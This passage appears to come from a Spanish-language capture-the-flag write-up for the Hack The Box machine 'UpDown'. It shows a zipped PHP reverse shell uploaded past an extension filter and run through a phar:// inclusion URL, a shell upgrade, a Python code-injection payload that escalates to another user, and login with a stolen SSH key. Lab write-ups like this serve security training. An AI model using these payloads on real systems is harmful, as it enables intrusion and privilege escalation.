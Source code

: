 Creamos nuestra reverse shell y la encapsulamos con cualquier extensión que no esté filtrada:

```
zip revshell.test shell.php 
```

Tras subirla, iniciamos un listener en el puerto que hayamos especificado volvemos a hacer uso del wrapper para llamarla:

![image](https://github.com/user-attachments/assets/87eea073-eebd-4678-b3c7-31a71c56f538)


```
http://dev.siteisup.htb/?page=phar://uploads/64fbd80378990182b061d4ceca662019/revshell.test/shell
```

![image](https://github.com/user-attachments/assets/7e461168-3b98-460c-a282-5312b0569e54)



Tras ganar acceso, hacemos un full tty de nuestra shell:
```
SHELL=/bin/bash script -q /dev/null
```

Encontramos un script en python sobre el que el usuario www-data tiene permisos de lectura y ejecución:

![image](https://github.com/user-attachments/assets/6a27cd81-fd38-4824-92c2-9ccbee0a48a7)



El script parece que toma la entrada del usuario sin sanitizarla. Podemos abusar de esto pasándo el siguiente parámetro a la función y escalar a developer:
```
./siteisup
__import__('os').system('/bin/bash')
```


![image](https://github.com/user-attachments/assets/fb4ef046-2274-46e0-9150-26e079a5b1ed)


Seguimos sin tener permisos para leer la flag de /home/developer:

![image](https://github.com/user-attachments/assets/c2a8d91a-8979-46b0-966d-6c6999ac7a02)


Dado que sí tenemos permisos para leer el directorio .ssh, vamos a usar la clave ssh para conectarnos:

![image](https://github.com/user-attachments/assets/71e8d822-8228-4e52-8f6f-94d1cbbd1545)


```
chmod 600 id_rsa_developer
ssh -i id_rsa_developer developer@10.10.11.177
```

```
developer@updown:/home$ cd developer
developer@updown:~$ cat user.txt
*****************e96462e932704
```
